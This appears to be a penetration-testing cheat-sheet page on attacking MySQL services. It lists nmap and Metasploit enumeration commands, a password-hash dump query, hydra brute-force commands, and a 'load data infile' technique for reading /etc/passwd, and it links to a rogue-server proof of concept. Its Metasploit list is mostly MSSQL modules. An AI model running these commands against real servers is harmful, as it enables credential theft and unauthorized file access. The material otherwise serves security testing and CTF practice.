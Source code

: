 ```yaml
---
description: (TCP 3306, 33060, 33061)
---
```


# ⭕ MySQL

## :information\_source: Introduction

#### [MySQL](https://www.mysql.com/services/)

The shell ports for MySQL services are:

1. Client-server ( classic MySQL protocol ) TCP 3306
2. Client-server ( X protocol ) TCP 33060
3. Server cluster configuration check port, TCP 33061

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] Login brute force
* [ ] Check for MySQL arbitrary file read
* [ ] Check for CVEs

## Enumeration

```
nmap -sV -p 3306,33060,33061 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
auxiliary/scanner/mysql/mysql_file_enum
```

## Query ( with credentials ) <a href="#basics" id="basics"></a>

### Manual

```bash
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -p root database
```

```bash
show databases;
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;
```

{% embed url="https://www.mysqltutorial.org/mysql-cheat-sheet.aspx" %}

### Automated

#### nmap :

```bash
# Audits MySQL database server security configuration
mysql-audit

# Attempts to list all databases on a MySQL server. (creds required)
mysql-databases

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
mysql-dump-hashes

# Checks for MySQL servers with an empty password for root or anonymous.
mysql-empty-password

# Performs valid-user enumeration against MySQL server using a bug
mysql-enum

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
mysql-info

# Runs a query against a MySQL database and returns the results as a table. (creds required)
mysql-query

# Attempts to list all users on a MySQL server.
mysql-users

# Attempts to show all variables on a MySQL server.
mysql-variables

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
mysql-vuln-cve2012-2122
```

#### Metasploit :

```
auxiliary/gather/lansweeper_collector                            Lansweeper Credential Collector
auxiliary/scanner/mssql/mssql_hashdump                           MSSQL Password Hashdump
auxiliary/scanner/mssql/mssql_ping                               MSSQL Ping Utility
auxiliary/scanner/mssql/mssql_schemadump                         MSSQL Schema Dump
auxiliary/admin/mssql/mssql_exec                                 Microsoft SQL Server Command Execution
auxiliary/admin/mssql/mssql_enum                                 Microsoft SQL Server Configuration Enumerator
auxiliary/admin/mssql/mssql_escalate_dbowner                     Microsoft SQL Server Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as                  Microsoft SQL Server Escalate EXECUTE AS
auxiliary/admin/mssql/mssql_findandsampledata                    Microsoft SQL Server Find and Sample Data
auxiliary/admin/mssql/mssql_sql                                  Microsoft SQL Server Generic Query
auxiliary/admin/mssql/mssql_sql_file                             Microsoft SQL Server Generic Query from File
auxiliary/admin/mssql/mssql_idf                                  Microsoft SQL Server Interesting Data Finder
auxiliary/admin/mssql/mssql_ntlm_stealer                         Microsoft SQL Server NTLM Stealer
auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                Microsoft SQL Server SQLi Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as_sqli             Microsoft SQL Server SQLi Escalate Execute AS
auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                    Microsoft SQL Server SQLi NTLM Stealer
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli            Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
auxiliary/admin/mssql/mssql_enum_sql_logins                      Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
auxiliary/admin/mssql/mssql_enum_domain_accounts                 Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
auxiliary/analyze/crack_databases                                Password Cracker: Databases
```

## Login Brute Force

```
 auxiliary/scanner/mssql/mssql_login 
 nmap --script mysql-brute <IP>
 hydra -L usernames.txt -P pass.txt <IP> mysql
```

## MySQL Arbitrary File Read

Load data infile is a very special syntax. Friends who know about injection or often play CTF may be familiar with this syntax. In CTF, we often encounter situations where there is no way to load\_file to read the file. At this time, load data infile is the only possible way to read files. Generally our statement is this:

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

The mysql server will read the server’s / etc / passwd and insert the data into the table according to `'\n'`. But now this statement also requires you to have FILE permissions, and non-local loaded statements are also restricted by `secure_file_priv`.

```
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

If we add a keyword local

```
mysql> load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

Query OK, 11 rows affected, 11 warnings (0.01 sec)
Records: 11  Deleted: 0  Skipped: 0  Warnings: 11
```

The client’s file will be read and send to the server. The execution result of the above statement is as follows.

![](../../.gitbook/assets/0-s6pVc0L8-WEq0HGr.png)

#### the PoC can be found here:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server" %}

an overview of the attack

{% embed url="http://russiansecurity.expert/2016/04/20/mysql-connect-file-read" %}
